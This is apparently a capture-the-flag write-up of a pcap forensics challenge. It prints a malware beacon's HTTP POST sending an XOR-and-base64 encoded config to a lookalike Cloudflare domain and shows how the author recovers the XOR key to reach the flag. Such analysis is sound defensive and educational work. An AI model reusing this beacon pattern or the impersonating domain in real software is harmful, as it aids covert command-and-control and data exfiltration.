






[← US Cyber Open Season VI Writeups](/blog/us-cyber-open-season-vi-writeups)



In this challenge, we’re given a pcap with a lot of HTTP requests. One packet that stands out as C2 (”phoning home”) traffic is this:



The request is made with python requsts (not a web browser) and it’s to `telemetry-edge-eu.cdnflare-stat.net` which looks like a malicious site meant to impersonare a cloudflare cdn.

```html
POST /api/5f3a9c11d4e84b2a/hello HTTP/1.1
Host: telemetry-edge-eu.cdnflare-stat.net
User-Agent: python-requests/2.25.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 512
Connection: close

id=5f3a9c11d4e84b2a&cfg=OlBaF315EBQnQVJKPHIDRXUXC0c9cVMDbVBQEjIzU0gmHBFJfRFzdwQ8dD8eEGEDbVBbHCw3EBtjJXo9cgdhamw0ej1vcBANYwdAFi1hCAMrXFcFMDFTSmNeERwsYQgDFhtdFzA0QQFwQh1DcXILEXVHEV99IAADe1BbByszCA5uEUcVPCtTTS0XXRQ6bV1PbBRcATgmHEIuHxFffTNdUzVQCUtvbxBVIAFYLC8iRkljSBFcPjNbDjdAHAc+MFlSY14RFiclW00eAlIHN2EIA24TQxpwNQAONAJfHD4nEA1jG10HOjFEQC1QCUVvbxBLKAZHFi1hCBFvQAZffTBGQCYXEUl9K0ZVMUgcXDc3RlF7XRwQKyVRSSAeXxYxJFcPLhweFTAxVURvEVweZXsCDjQCVxIrJh1MIBxaFTowRg8rAVwdfW8QTy4GVlFlYVlEOFJBFiowV0VhFFwBfzBGQCYXEx4+LVtHJAFHUSI=
HTTP/1.1 200 OK
Server: Werkzeug/2.0.1 Python/3.9
Date: Wed, 03 Jun 2026 15:20:39 GMT
Content-Type: application/json
Set-Cookie: SID=68bbc084a619b5d524bf558e; Path=/
Content-Length: 27
Connection: close

{"status":"ok","task":null}
```

Just trying to base64 decode that cfg payload doesn’t result in anything but if it’s XOR’d before the base64 we can try a few guesses at the original plaintext to get the XOR key. This took a lot of trial and error but here’s a guess at how the config payload starts (from the json format that the C2 responds with).

```html
{"id":"5f3a9c11d4e84b2a",
```



This looks like the ciphertext ^ plaintext = `Ar3s_C2!` meaning the XOR key is `Ar3s_C2!`



Ooh, looks like there’s a link for us to check out



Going to it gives us some new base64 which, when base64 decoded and XOR’d with the same key give us:



Flag: `SVIUSCG{b34c0n_4r0unD_th3_w0rLd}`
